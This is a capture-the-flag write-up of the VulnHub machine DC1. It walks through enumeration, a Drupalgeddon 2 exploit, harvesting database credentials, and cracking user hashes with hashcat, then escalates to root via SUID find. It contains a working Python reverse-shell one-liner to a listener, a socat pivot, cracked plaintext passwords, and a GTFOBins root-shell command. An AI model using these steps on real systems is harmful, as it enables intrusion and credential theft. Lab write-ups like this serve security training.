# DC1
## Overview
This is a writeup of the vulnhub machine [DC1](https://www.vulnhub.com/entry/dc-1,292/)
## Key Takeaways
1. Hashcat + GPU >> John
2. Always check suid programs
## Enumeration
### Initial Nmap
The open ports were discovered to be 22 and 80 with nmap and [nmapAutomator](https://github.com/ryohare/nmapAutomator).
```bash
# nmap
nmap -n -p- -sTCV -T4 -Pn --script=vuln --script-args="unsafe=1" 192.168.1.21

# or nmapAutomator
nmapAutomator 192.168.1.21 All
```

Looking at port 80, the web server, we launch the standard web enumeration tools to see what we have, curl for robots, `nikto`, and `gobuster`
```
curl -v http://192.168.1.21/robots.txt
```

From the robots, we see there are alot of directories not being indexted. Based on the structure, it appears to be some managed content server, maybe some CMS system. Moving onto `nikto` to see the webservers we have to work with.
```bash
nikto -h http://192.168.1.21
```

In the `nikto` output, we see an uncommon header indicating the web app is Drupal 7. This seems like enough to give [droopscan](https://github.com/droope/droopescan) a run and see if we can find anything useful about the installation.
```bash
git clone https://github.com/droope/droopescan
cd droopescan
pip3 install -r requirements.txt
python3 droopescan scan drupal -u 192.168.1.21 -t 32
```

As per the scan, the Drupal instance is likely version 7.2X. We can use this information to look and see if there are any vulnerabilities targetting this version using `searchsploit`
```bash
searchsploit drupal 7
```

Looks like this may be vulnerable to Drupalgeddon(2/3). Selecting a random and exploit from the list which fits the version range, Drupalgeddon 2 exploit `44449.rb` is selected.



I always copy these from the searchsploit directory to the local testing directory incase I need to customize the code for this specific target. Once local and the code is inspected, it seems this exploit is ready to fire as is. So fire away and is so doing, we are able to get a web shell back as the user `www-data`, e.g. the web server.


Once on the machine, the first steps here are to harvest as much as we can from the the Drupal installation. Most of the CMSes have database backends with creds stored somewhere in the installation directory. In Drupal, some quick googing found it to be in a settings.php file. A little find command later and were in the file and pulling database creds from the configuration.

Using these creds, we can get into the database and look to steal the hashes for the users on the system and hopefully find some password reuse potential between the Drupal users and the users on the machine. However, quickly I found that stdout / stderr was having issues and I could not launch `mysql` command line tool through the shell via `44449.rb` exploit. Therefore, we needed a reverse shell. Unfortanetly, this would not be as simple because my Kali machine was behind a NAT (my Host machine) and DC1 was on the main network. So, a pivot was setup on the host to send reverse shells back to the Kali host using socat.
```bash
# on host machine
socat tcp-l:5555,fork,reuseaddr tcp:192.168.91.129:5555
```
```bash
# on kali
nc -nlvp 5555
```
```bash
# on DC1 - reverse shell from pentest monkeys
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.17",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

With this new reverse shell, I was able to get into the `mysql` command line tool and exfiltrate the hashes for the users admin and fred.

Initially I popped these into John locally, however it was taking forever, so I moved over to hashcat on a Windows machine with a GPU in it.
```cmd
hashcat64.exe -m 7200 drupal_hashes.txt SecLists/Passwords/Leaked-Databases/rockyou.txt
```
This quickly revealed the two passwords. Unfortantly, these two passwords, (fred:MyPassword, admin:53cr3t) did not get me access to any of the two users on the machine, flag4, or root. This being a dead end, time to start traditional system enumeration with [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh).
```bash
cd /tmp
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```
After reviewing the output, I see that find has some suid bits set to root on it (for some unexplainable reaason). This seems like a ripe candidate for privilege escalation. Find can be used with `-exec` to do stuff on the results it returns. So, if the goal was just to retrieve a flag from the root directory, this woul be possible with this. The screenshot below demonstrates this.



But if we wanted to get a root shell, is that possible? Checking out [GFTOBins](https://gtfobins.github.io/) which specializes in suid exploitation, we find the `find` is there with a method to get a shell. 
```bash
find . -exec /bin/sh \; -quit
```
Trying this, we are able to get a root shell.


